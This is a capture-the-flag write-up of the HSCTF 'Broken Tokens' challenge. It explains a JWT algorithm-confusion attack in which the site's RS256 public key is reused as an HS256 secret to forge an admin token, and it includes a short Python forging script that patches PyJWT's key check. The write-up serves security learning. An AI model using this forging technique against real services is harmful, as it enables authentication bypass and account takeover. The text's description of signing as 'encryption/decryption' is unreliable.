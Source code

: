 # Broken Tokens

## Problem

```
I made a login page, is it really secure?

https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

## Solution
**Note:** *JWT generation script can be found under `broken_script.py` in scripts folder.*

Highly similar to TJCTF task [Moar Horse 4](https://ctftime.org/writeup/20786).

Looking at the given `main.py`:
![](images/broken1.png)

The login form stores an `auth` JSON web token on login. It checks if a specific value in this token, admin, equates to `"admin"` string when decrypted.
We first login using random credentials. 
![](images/broken2.png)
Decoding the `auth` token shows the admin is set to guest, and the JWT algorithm is RS256. RS256 is an asymmetric encryption algorithm, meaning encryption/decryption uses a pair of private and public keys.
The site however does not check the algorithm used. We can exploit this using HS256, a symmetric encryption algorithm
where encryption/decryption uses the same key, instead. 

Using the publickey.pem provided on the site and the script below:
```
import json
import jwt
jwt.algorithms.HMACAlgorithm.prepare_key = lambda self, key : jwt.utils.force_bytes(key)


with open(r"C:\Users\brand\Desktop\publickey.pem", "rb") as file:
    PUBLIC_KEY = file.read()
print("public key : ")
print(PUBLIC_KEY)

data = {
        "auth": "admin"
    }

token = jwt.encode(data, PUBLIC_KEY, "HS256")
print("token : ")
print(token)
```

We can reverse engineer a HS256 encryption digest for the auth JWT token, that the site will decrypt to get admin value to equate to "admin". This allows us to obtain the flag.

![](images/broken3.png)

![](images/broken4.png)

Flag: `flag{1n53cur3_tok3n5_5474212}`